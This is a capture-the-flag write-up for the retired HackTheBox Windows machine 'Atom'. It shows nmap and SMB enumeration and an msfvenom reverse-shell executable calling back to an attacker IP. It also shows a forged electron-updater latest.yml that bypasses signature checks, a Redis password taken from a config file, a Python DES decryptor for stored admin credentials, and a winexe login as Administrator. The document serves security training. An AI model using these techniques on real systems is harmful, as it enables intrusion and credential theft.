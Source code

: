 ```yaml
---
title: HackTheBox - Atom Writeup
subtitle: Here's my writeup for the RETIRED machine Atom, Which is a Medium Windows machine!
summary: Here's my writeup for the RETIRED machine Atom, Which is a Medium Windows machine!
date: '2021-07-10'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Hard']
tags: ['HackThebox', 'Medium','Windows']
image: /assets/img/htb-atom/Featured.png
render_with_liquid: false
---
```


# Information Gathering

---

## Nmap scan
```
sudo nmap -sC -sV 10.10.10.237 -v
```

```
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)

```

## Web Enumeration

<img src="/assets/img/htb-atom/web.png">

It's a static page with an executeable to download, but nothing interesting! Let's keep enumerating

## <p style="color:Green">SMB Enumeration </p> 

<img src="/assets/img/htb-atom/smb.png">

An interesting share `Software_Updates` let's take a look at it

<img src="/assets/img/htb-atom/foothold.png">

Let's try download everything

```
prompt off
recurse on
mget *
```

<img src="/assets/img/htb-atom/smbfiles.png">
We only have a pdf file!

---

# Foothold 

---

Let's take a look at the pdf file

<img src="/assets/img/htb-atom/electron.png">
<img src="/assets/img/htb-atom/electron1.png">

The Heedv1 app is build with `electron-builder` and also we can drop updates in the client folders in the smb and it get executed.
Searching in  google for an electron builder update rce, we can find an interesting

> https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

Let's first create our shell with the name "s'hell.exe" to bypass the signature

```
msfvenom -p windows/shell_reverse_tcp  lhost=10.10.14.5 lport=9001 -f exe -o "s'hell.exe"
```

And also generate the encdoded shasum of our malicious file

```
shasum -a 512 s\'hell.exe | cut -d " " -f1 | xxd -r -p | base64
``` 

Now we're ready to create our `latest.yml`

```yml
version: 1.2.3

path: http:/IP:PORT/s'hell.exe
sha512: CZsOB2[-SNIP-]2tW5UhzwqzLVkkpzAbuIw==
```

Let's setup a listener and upload them to the clients folder in the smb! And wait until we get a shell back


<img src="/assets/img/htb-atom/foothold.png">

We're on the box now! And we can get the user flag !:D

<img src="/assets/img/htb-atom/user.png">


---

# PrivEsc

---

Before running any enumerating tool, i always check the Program file, the documents and Downloads folders to check if we have any custom Software  (a aka free win) installed in the system!

<img src="/assets/img/htb-atom/portable.png">

We  can copy the whole folder and try to retrieve the encrypted like the machine `sharp` but let's keep enumerating!
> https://www.exploit-db.com/exploits/49409


<img src="/assets/img/htb-atom/redis.png">

We can see that Redis is installed, we can grab the redis password from the config file

<img src="/assets/img/htb-atom/pass.png">

```
requirepass kidvscat_yes_kidvscat
```
Now we can enumerate the redis service!

We will use the redis-tools package

```
sudo apt-get install redis-tools
```

> A very good ressource, i'll use everything from here https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

Let's dump the database
```redis
info
```
<img src="/assets/img/htb-atom/rd.png">

Let's list the keys from the db0


<img src="/assets/img/htb-atom/rd1.png">

Let's check their content
<img src="/assets/img/htb-atom/PS.png">


The key `pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0` seems to give us credentials 

```
Administrator:Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
```
Seems like it's an encrypted password! And we already know that we have an exploit to decrypt it ! Lets give it a try


Let's just take a snippet from the exploit-db exploit 
```python
#!/usr/bin/env python3
import base64
from des import *
def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print('[+] Decrypted Password: '+decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'))
```

<img src="/assets/img/htb-atom/adminpass.png">

```
Administrator:kidvscat_admin_@123
```
Now let's login as administrator to the machine

```
winexe -U 'Administrator%kidvscat_admin_@123' //10.10.10.237 cmd.exe
```



<img src="/assets/img/htb-atom/toor.png">

And we rooted the machine!
